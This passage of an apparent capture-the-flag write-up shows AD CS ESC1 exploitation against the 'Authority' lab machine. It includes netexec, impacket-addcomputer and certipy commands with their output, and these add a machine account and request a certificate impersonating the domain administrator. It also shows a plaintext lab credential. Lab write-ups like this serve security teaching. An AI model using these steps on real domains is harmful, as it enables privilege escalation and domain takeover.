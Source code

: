 According to this [post](https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/). Templates vulnerable to `ESC1` must have the following configurations:
* Client Authentication: True
* Enabled: True
* Enrollee Supplies Subject: True
* Requires Management Approval: False
* Authorized Signatures Required: 0

This conditions matches the output that comes out of authority but will only one difference. In this, case `Domain Computers` can enroll with this templates, not `Domain Users`.

### Creating Computer Account
The settings that allows a user to add a computer to domain is the
ms-ds-machineaccountquota. We can use `netexec` to view the machinequota. 

```bash
$netexec ldap 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M maq
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
LDAPS       10.10.11.222    636    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! 
MAQ         10.10.11.222    389    AUTHORITY        [*] Getting the MachineAccountQuota
MAQ         10.10.11.222    389    AUTHORITY        MachineAccountQuota: 10

```
This means we can add upto 10 computers. We can add computers using `impacket-addcomputer`.

```bash
$impacket-addcomputer Authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!' -computer-name testerpc -computer-pass 'Password@123' -method LDAPS -dc-ip 10.10.11.222
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account testerpc$ with password Password@123.
```
With the computer account created earlier, certipy will create a certificate.

```bash
$certipy req -username testerpc$ -password Password@123 -ca AUTHORITY-CA -dc-ip 10.10.11.222 -template CorpVPN -upn administrator@authority.htb -dns authority.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with multiple identifications
    UPN: 'administrator@authority.htb'
    DNS Host Name: 'authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_authority.pfx'
```


### PassTheCert

We can use certipy auth command to get the NTLM hash of the administrator but this failed.
